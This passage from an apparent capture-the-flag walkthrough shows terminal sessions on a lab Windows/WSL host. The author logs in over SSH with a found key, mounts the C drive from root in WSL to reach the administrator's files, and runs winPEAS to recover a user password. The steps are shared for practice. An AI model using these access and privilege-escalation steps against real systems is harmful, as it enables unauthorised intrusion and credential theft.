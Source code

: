 I tried connecting as `dev-datasci` but it didn't work, but after a second look, we see the file has the name `dev-datasci-lowpriv`

```terminal
$ ssh dev-datasci-lowpriv@10.10.220.169 -i sshkey                                                                                                                                     
Microsoft Windows [Version 10.0.17763.3287]                                                                                                                                                   
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                          
                                                                                                                                                                                              
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>whoami                                                                                                                       
dev-datasci-jup\dev-datasci-lowpriv                                                                                                                                                           
                                                                                                                                                                                              
dev-datasci-lowpriv@DEV-DATASCI-JUP C:\Users\dev-datasci-lowpriv>
```

Great! We got access to the windows machine.

Now back on the linux box(it's wsl BTW), if we check the `/mnt` directory we find `c`

```terminal
root@DEV-DATASCI-JUP:~# cd /mnt/
root@DEV-DATASCI-JUP:/mnt# ls
c       
```

The folder was empty, I'm guessing it's the c drive of windows, so let's try mounting it `mount -t drvfs C: /mnt/c`.

```terminal
root@DEV-DATASCI-JUP:~# mount -t drvfs C: /mnt/c
root@DEV-DATASCI-JUP:~# cd /mnt/c/                                                             
root@DEV-DATASCI-JUP:/mnt/c# ls                                                                
ls: cannot read symbolic link 'Documents and Settings': Permission denied                    
ls: cannot access 'pagefile.sys': Permission denied
'$Recycle.Bin'            'Program Files (x86)'         Users
'Documents and Settings'   ProgramData                  Windows
 PerfLogs                  Recovery                     datasci-team
'Program Files'           'System Volume Information'   pagefile.sys
root@DEV-DATASCI-JUP:/mnt/c#
```

Great! Now we can easily grab the flag from the administrator's desktop.

We completed the lab, but we can still try to get as system shell.

Let's run `winpeas.exe`

![winpeas](4.png)

![win](5.png)

We found `dev-datasci-lowpriv` password
